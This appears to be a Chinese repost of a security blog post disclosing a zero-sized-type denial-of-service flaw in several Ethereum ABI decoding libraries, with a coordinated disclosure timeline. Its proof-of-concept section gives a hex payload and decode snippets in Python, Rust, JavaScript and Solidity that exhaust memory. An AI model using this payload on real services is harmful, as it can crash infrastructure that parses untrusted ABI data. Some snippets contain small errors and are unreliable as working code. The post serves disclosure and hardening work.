 ```yaml
---
date: 2025-08-02T09:56:18+08:00
title: "亿次空耗：以太坊ABI解析器中的零大小类型DoS漏洞分析"
tags: [区块链, 漏洞披露, 以太坊, ABI解析]
authors: qife
description: 本文深入分析了以太坊ABI解析器中存在的零大小类型(ZST)拒绝服务漏洞，该漏洞影响多个主流库如eth_abi(Python)、ethabi(Rust)等，攻击者可通过构造特殊数据包导致内存耗尽。文章详细披露了漏洞原理、PoC验证过程和协调披露时间线。
---
```


# 亿次空耗 - The Trail of Bits博客

在以太坊强大的区块链技术背后，隐藏着一个开发者们较少提及的挑战：编写健壮的以太坊ABI（应用二进制接口）解析器的复杂性。以太坊ABI对区块链基础设施至关重要，它实现了智能合约与外部应用间的无缝交互。数据类型的复杂性和编解码的精确需求使得ABI解析充满挑战。规范或实现中的模糊性可能导致危及用户的漏洞。

本文将深入剖析一个新型漏洞，该漏洞针对这些解析器，令人联想到曾肆虐XML领域的"十亿大笑"攻击。我们发现以太坊ABI规范部分条款表述松散，导致多个实现存在可利用漏洞，包括eth_abi(Python)、ethabi(Rust)、alloy-rs和ethereumjs-abi等库，可能引发拒绝服务(DoS)攻击。截至发文时，仅Python库已完成修复。

## 什么是以太坊ABI？

当链上合约交互或链下组件与合约通信时，以太坊使用ABI编码来处理请求和响应。这种编码方式不自我描述，编解码器需要提供定义数据类型的模式。与C语言中平台相关的ABI不同，以太坊规范了应用间二进制数据的传递方式。虽然规范尚未正式化，但清晰展现了数据交换机制。

当前规范存在于Solidity文档中，其类型定义影响了Solidity和Vyper等智能合约语言。

## 漏洞原理

零大小类型(ZST)指在磁盘存储中占零（或极小）字节，但加载到内存后需要显著更多空间的数据类型。以太坊ABI允许ZST存在，攻击者可利用其特性，通过极小量的磁盘或网络数据诱发巨大的内存分配。

考虑以下场景：当解析器遇到ZST数组时会发生什么？它会尝试解析数组声明包含的所有ZST元素。由于每个元素占零字节，定义超大型ZST数组轻而易举。

示例显示：20字节的磁盘数据可反序列化为包含数字2、1、3的数组；而仅8字节的数据却能反序列化为2³²个ZST元素（如空元组或空数组）。如果每个ZST在解析后仍占零字节内存，这不成问题。但实践中，每个元素通常需要少量非零内存，导致整体数组需要巨大内存分配，形成DoS攻击。

## 概念验证

我们通过以下十六进制数据载荷演示多个库中的漏洞：

```
0000000000000000000000000000000000000000000000000000000000000020
00000000000000000000000000000000000000000000000000000000FFFFFFFF
```

该载荷包含两个32字节块，描述序列化的ZST数组。第一块定义数组元素偏移量，第二块定义数组长度。我们使用`()[ ]`和`uint32[0][]`两种ABI模式进行解码测试。

### eth_abi (Python)

```python
from eth_abi import decode
data = bytearray.fromhex(payload)
decode(['()[]'], data)
```

4.2.0版本前的官方库会先挂起，最终因内存不足终止。

### ethabi (Rust)

v18.0.0版本可通过CLI直接触发漏洞：
```bash
cargo run -- decode params -t "uint32[0][]" $payload
```

### ethers-rs (Rust)

v2.0.10版本通过`Vec<[u32; 0]>`类型隐式使用漏洞模式：
```rust
use ethers::abi::AbiEncode;
let data = hex::decode(payload);
let _ = Vec::<[u32; 0]>::decode(&hex_output.unwrap()).unwrap();
```

### foundry (Rust)

该工具集基于ethers-rs，同样存在漏洞。可通过CLI或部署恶意合约触发：
```solidity
contract ABC {
    fallback() external {
        bytes memory data = abi.encode(0x20, 0xfffffffff);
        assembly {
            return(add(data, 0x20), mload(data))
        }
    }
}
```

### alloy-rs

0.4.2版本的动态ABI解析同样存在挂起问题：
```rust
use alloy_dyn_abi::{DynSolType, DynSolValue};
let my_type: DynSolType = "()[]".parse().unwrap();
let decoded = my_type.abi_decode(&hex::decode($payload).unwrap()).unwrap();
```

### ethereumjs-abi

0.6.8版本的JavaScript实现也受影响：
```javascript
var abi = require('ethereumjs-abi')
data = Buffer.from($payload", "hex")
abi.rawDecode([ "uint32[]" ], data)
```

## 漏洞发现与利用

该漏洞的发现源于对borsh-rs库中类似问题的研究。最新版Solidity和Vyper已禁止ZST定义，因此难以在主网部署触发此漏洞的智能合约。但任何使用受影响库解析不可信ABI声明的应用（如Etherscan）都可能面临风险。

## 协调披露

我们遵循以下时间线进行披露：
- 2023年6月30日：首次联系各库维护者
- 2023年8月2日：为eth_abi创建GitHub安全公告
- 2023年8月31日：eth_abi发布无公开说明的修复
- 2023年12月29日：公开发布分析报告并创建GitHub问题

建议开发者通过模糊测试强化解码器安全性，我们正将相关测试用例纳入OSS-fuzz持续检测体系。